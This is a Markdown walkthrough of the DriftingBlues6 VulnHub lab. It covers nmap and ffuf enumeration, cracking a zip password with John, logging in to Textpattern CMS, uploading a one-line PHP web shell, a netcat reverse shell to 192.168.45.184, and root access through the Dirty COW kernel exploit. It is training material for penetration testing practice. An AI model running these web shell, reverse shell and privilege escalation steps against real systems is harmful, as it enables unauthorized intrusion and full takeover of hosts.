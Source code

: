 # DriftingBlues6

| Name        | DriftingBlues6                |
| ----------- | ----------------------------- |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

```shell
192.168.159.219
```
## Enumeration
### Nmap
```shell
nmap 192.168.159.219 -sV -sC -p- --min-rate=1000

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: driftingblues


sudo nmap 192.168.159.219 -p- --min-rate=1000 -sU
```
### Web Enumeration - Port 80
We just found a web page with only text and one image.
![01-DriftingBlues6](01-DriftingBlues6-10.png)
#### robots.txt
![01-DriftingBlues6-1](01-DriftingBlues6.png)
- We have two clues here. The first one a subdirectory to continue enumerating and the second one an extension to use in our directory enumeration

#### Ffuf
```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.159.219/FUZZ.zip

ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.159.219/FUZZ.zip

spammer
```

```shell
http://192.168.159.219/spammer.zip
```
- This new subdirectory allow us to download a zip file but we need a password
#### zip2John
```shell
zip2john spammer.zip > zip.hash

john --wordlist=/home/kali/Documents/rockyou.txt zip.hash

myspace4
```

```shell
unzip spammer.zip
cat creds.txt

mayer:lionheart
```

#### /textpattern/textpattern/
```shell
http://192.168.159.219/textpattern/textpattern/
```
![01-DriftingBlues6-2](01-DriftingBlues6-11.png)
- In this URL given by [#robots.txt](#robots.txt) we found a login page for Textpattern CMS. We tried some default credentials but did no worked

Let's try the credentials found in the ZIP file:
![01-DriftingBlues6-3](01-DriftingBlues6-12.png)


## Foothold
In the bottom of the logged in console we found the CMS version:
```shell
Textpattern CMS (v4.8.3)
```

### EDB-ID-48943 - TextPattern CMS 4.8.3 - RCE Authenticated
- https://www.exploit-db.com/exploits/48943
We could make this script to be execute but we can try a manual approach as showed for the version 4.8.7:
- https://www.exploit-db.com/exploits/49996
#### Web Shell
```shell
vim shell.php

<?php system($_GET['cmd']);?>
```

![01-DriftingBlues6-4](01-DriftingBlues6-13.png)

```shell
http://192.168.159.219/textpattern/files/shell.php?cmd=id
```
![01-DriftingBlues6-5](01-DriftingBlues6-14.png)

#### Reverse Shell
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.184 4444 >/tmp/f

http://192.168.159.219/textpattern/files/shell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.45.184%204444%20%3E%2Ftmp%2Ff
```
#### Listener
```shell
nc -lnvp 4444
```
![01-DriftingBlues6-6](01-DriftingBlues6-15.png)


## Privilege Escalation
```shell
python -c 'import pty; pty.spawn("/bin/sh")'
```
### Basic Enumeration
- Sudo is not installed
```shell
uname -a

Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```
- This is an old kernel. Let's try this kind of exploit

### EDB-ID-40839 - CVE-2016-5195 - Dirty COW
- https://www.exploit-db.com/exploits/40839
#### Compiling Exploit
```shell
gcc -pthread dirty.c -o dirty -lcrypt
```

```shell
./dirty

firefart:0000
```
![01-DriftingBlues6-7](01-DriftingBlues6-16.png)

#### Shell as firefart (Root User)
```shell
su firefart
```
![01-DriftingBlues6-8](01-DriftingBlues6-17.png)

![01-DriftingBlues6-9](01-DriftingBlues6-18.png)


# Flags
```shell
/root/proof.txt
```

